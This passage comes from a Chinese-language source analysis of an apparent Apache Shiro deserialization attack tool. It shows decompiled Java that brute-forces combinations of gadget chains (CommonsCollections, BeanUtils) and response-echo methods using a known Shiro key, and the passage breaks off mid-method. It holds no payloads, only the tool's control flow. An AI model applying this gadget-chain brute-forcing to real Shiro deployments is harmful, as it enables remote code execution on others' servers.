       25.         } catch (Exception var4) {
    
      26.             if (var4.getMessage() != null) {
    
      27.                 this.mainController.logTextArea.appendText(Utils.log(var4.getMessage()));
    
      28.             }
    
      29.         }
    
      30.         return flag;
    
      31.     }
    
    
    

### 利用链爆破

无论使用什么利用链都需要和回显的方式配合，所以这里首先是拿出了利用链和回显方式并进行组合。组合后通过`:`分割，通过`gadgetCrack`检测这种利用链和回显方式是否存在。目前这款工具主要的利用链是CC利用链和Beanutils利用链。回显方式主要是`Tomcat`和`Spring`回显，作者后来版本也加了`通用回显`，这些回显方式之后我会分析。

    
          1. void crackGadgetBtn(ActionEvent event) {
    
      2.         String spcShiroKey = this.shiroKey.getText();
    
      3.         if (this.attackService == null) {
    
      4.             this.initAttack();
    
      5.         }
    
      6.         boolean flag = false;
    
      7.         if (!spcShiroKey.equals("")) {
    
      8.             //获取利用链和回显方式并进行组合
    
      9.             List<String> targets = this.attackService.generateGadgetEcho(this.gadgetOpt.getItems(), this.echoOpt.getItems());
    
      10.             for(int i = 0; i < targets.size(); ++i) {
    
      11.                 String[] t = ((String)targets.get(i)).split(":");
    
      12.                 String gadget = t[0];
    
      13.                 String echo = t[1];
    
      14.                 //检测利用链和回显方式是否存在
    
      15.                 flag = this.attackService.gadgetCrack(gadget, echo, spcShiroKey);
    
      16.                 if (flag) {
    
      17.                     break;
    
      18.                 }
    
      19.             }
    
      20.         } else {
    
      21.             this.logTextArea.appendText(Utils.log("请先手工填入key或者爆破Shiro key"));
    